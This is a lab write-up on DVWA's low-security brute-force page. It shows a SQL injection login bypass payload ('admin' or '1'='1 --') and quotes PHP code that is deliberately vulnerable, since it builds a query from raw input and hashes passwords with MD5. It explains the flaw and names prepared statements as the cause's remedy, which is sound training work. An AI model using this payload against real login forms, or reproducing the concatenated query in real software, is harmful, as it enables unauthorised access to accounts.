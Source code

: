 # Brute Force - Low 

---

## Attack Steps

1. Open the target page in the browser: 
    - http://<ip address>/dvwa/vulnerabilities/brute/

2. Enter the following credentials 

    ```sql
    Username: admin' or '1'='1 -- 
    Password: anything # Change the password to whatever
    ```

3. Observe login message 

    ```bash 
    Welcome to the password protected area admin' or '1'='1 --
    ```

### Note 
- This attempt technically isn't a brute force attack. When utilising Hydra, I got multiple false positives due to the response length. After analysing the source code I identified that it was also weak to SQLi. 
--- 

## Vulnerable Code Analysis 

### File: 
`/var/www/dvwa/vulnerabilities/brute/source/low`

#### Key Vulnerability Points:

```php 

    $user = $_GET['username'];
    
    $pass = $_GET['password'];
    $pass = md5($pass);

    $qry = "SELECT * FROM `users` WHERE user='$user' AND password='$pass';";
    $result = mysql_query( $qry ) or die( '<pre>' . mysql_error() . '</pre>' ); 
```

### Explanation 
- The code is taking direct user input `$user = $_GET['username'];/$pass = $_GET['password'];`. The password is hashed using MD5 `$pass = md5($pass);` before the username and password hash is inserted into the SQL query.

- This can be exploited using the payload ' or '1'=1 --: 
    - The query will become "SELECT * FROM `users` WHERE user=' ' or '1'=1 -- ".
    - The ' ' will be ignored and the boolean value will always be true. 
    - The `--` will comment out the password section 

- Causes: 
    - No input validation or sanitisation on $user or $pass so users can input anything
    - Direct insertion of user input into queries means queries can be modified
    - Not using prepared statements, prepared statements treat user input only as data rather than SQL code so even if SQL keywords are included they won't modify the queries  